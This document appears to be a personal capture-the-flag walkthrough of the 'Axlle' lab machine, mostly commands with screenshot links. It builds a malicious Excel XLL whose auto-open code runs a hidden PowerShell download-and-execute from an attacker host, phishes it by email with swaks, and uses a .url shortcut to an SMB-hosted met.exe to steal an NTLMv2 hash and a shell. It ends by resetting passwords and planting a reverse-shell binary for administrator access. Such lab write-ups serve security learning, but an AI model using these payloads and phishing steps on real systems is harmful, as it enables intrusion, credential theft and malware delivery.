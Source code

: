 **Nmap Scans**
```
mapit 10.10.11.21 --speed
```
Initiated All Scans

**Nmap Default Scan**
![[Pasted image 20240624211103.png]]

**Nmap Script and Service Scan**
![[Pasted image 20240624211216.png]]
![[Pasted image 20240624211302.png]]

Nmap All Port Scan
![[Pasted image 20240624212709.png]]
![[Pasted image 20240624212738.png]]

Nmap Service and Script Scan for newly Identified Ports
![[Pasted image 20240624212836.png]]

On Port 80
![[Pasted image 20240625105234.png]]

All macros are disabled, we have to send email with 
![[Pasted image 20240625110854.png]]

Gobuster
```
gobuster dir -u http://10.10.11.21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240625132442.png]]

ffuf 
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.21/FUZZ -t 100 -o ffuf.txt
```
![[Pasted image 20240625132550.png]]
Nothing Intresting


**Generating Malicious .xll file**
It's gonna be tedious process, Will generate a .xll file using this github repo: https://github.com/Octoberfest7/XLL_Phishing

First Clone will clone the repo in our kali
```
git clone https://github.com/Octoberfest7/XLL_Phishing.git 
```
![[Pasted image 20240625125557.png]]

We have to get the **2013_Office_System_Developer_Resources** to compile the program and generate the .xll file

Download link for **2013_Office_System_Developer_Resources**: https://www.microsoft.com/en-us/download/details.aspx?id=35567
![[Pasted image 20240625125851.png]]

Download this in .msi file my windows machine and transfer the file to kali
![[Pasted image 20240625125954.png]]

Transferred to kali 
![[Pasted image 20240625130016.png]]

Now ill execute the commands
```
cd XLL_Phishing
ls
```
![[Pasted image 20240625130158.png]]

compile the ingestfile.c file 
```
gcc -o ingestfile ingestfile.c
```
![[Pasted image 20240625130311.png]]

Now have to change the code in snippet.c according to get a reverse shell
Modified snippet.c
```
#include <windows.h>
#include <stdlib.h>

__declspec(dllexport) int WINAPI xlAutoOpen(void)
{
    // Your existing code...

    // Add the reverse shell download code
    system("powershell -ep bypass -w hidden -Command iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')");

    return 1;  // Return 1 on success
}
```

Now will run the main command which generate the .xll file accordingly
```
x86_64-w64-mingw32-gcc snippet.c 2013_Office_System_Developer_Resources/Excel2013XLLSDK/LIB/x64/XLCALL32.LIB -o pwned.xll -s -Os -DUNICODE -shared -I 2013_Office_System_Developer_Resources/Excel2013XLLSDK/INCLUDE/
```
![[Pasted image 20240625130541.png]]
We got our .xll file

Now will email this to accounts@axlle.htb using swaks
```
 swaks --to accounts@axlle.htb --from test@test.com --header "Subject: test" --body "test" --attach @pwned.xll --server 10.10.11.21 --port 25
```
![[Pasted image 20240625130720.png]]

Before running this have started the webserver on port 80, to deliver the rev.ps1 and started Netcat listener on port 443
![[Pasted image 20240625130831.png]]

Got Reverse shell
![[Pasted image 20240625130855.png]]

So we got a shell as user gideon.hamill

We don't have any interesting privileges, will explore more
```
whoami /priv
```
![[Pasted image 20240625131523.png]]

After a long enumeration, i have can some Intresting mail from hMailServer/data
![[Pasted image 20240625150638.png]]

![[Pasted image 20240625150704.png]]

![[Pasted image 20240625150723.png]]
there is an Email, will transfer that to our kali using smb share

Smb share
```
impacket-smbserver test . -smb2support  -username root -password R0ot
```
![[Pasted image 20240625150853.png]]

![[Pasted image 20240625150814.png]]

Now we can read the content of the email
![[Pasted image 20240625151041.png]]

So now we have to make a shortcut which should get us a reverse shell
navigate to inetpub/testing dir
![[Pasted image 20240625151212.png]]

Now will make a shortcut
```
$url = "file://///10.10.14.10/kali/met.exe"
$shortcutPath = "C:\inetpub\testing\pwn1.url"
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
Set-Content -Path $shortcutPath -Value $shortcutContent
```
![[Pasted image 20240625151234.png]]

We can see our shortcut here
![[Pasted image 20240625151315.png]]

Before creating our shortcut, first wee need to remove password auth in or smb share
So, i have started a new share without auth
```
impacket-smbserver kali . -smb2support
```
![[Pasted image 20240625151413.png]]

Now Will wait to dev team member top click the shortcut
![[Pasted image 20240625151514.png]]
got NTLMv2 hash of a user dallon.matrix

And we got our reverse shell
![[Pasted image 20240625151619.png]]
Nice...:)

Got our user.txt, while searching for any intresting file in user directory
```
Get-ChildItem -Path C:\Users -Include *.txt, *.log, *.kdbx, *.conf, *.ini, *.exe -File -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20240625151722.png]]

**User.txt**
![[Pasted image 20240625151850.png]]


Will Jump to lateral movement.....!




Will analyse the bloodhound data
![[Pasted image 20240625162126.png]]
Can see members of group web_dav can change password to user BAZ.HUMPHRIES and JACOB.GREENY

Now we a shell as dallon.matrix and he is member of web_dav
![[Pasted image 20240625154107.png]]

So we can change the password for user BAZ.HUMPHRIES
First imported Power view
![[Pasted image 20240625154650.png]]

And changed the password
![[Pasted image 20240625154635.png]]
![[Pasted image 20240625154708.png]]

changed password for Jacob in a same way but his password is **pwned@2000**
Now will check we can access Jacob
![[Pasted image 20240625162300.png]]
Yes we can...!

Will go to App development
![[Pasted image 20240625162337.png]]
Can see, admin is automated a program to run, will change that to our malicious.exe



Downloaded the met.exe which is our reverse shell binary and saved as the standalonerunner.exe
```
wget 10.10.14.10/met.exe -o standalonerunner.exe
```
![[Pasted image 20240625162441.png]]

Now will wait for our reverse shell ad admin
![[Pasted image 20240625162605.png]]
Got it...!

Will get the root Flag
![[Pasted image 20240625162712.png]]




Done With Axlle.......:)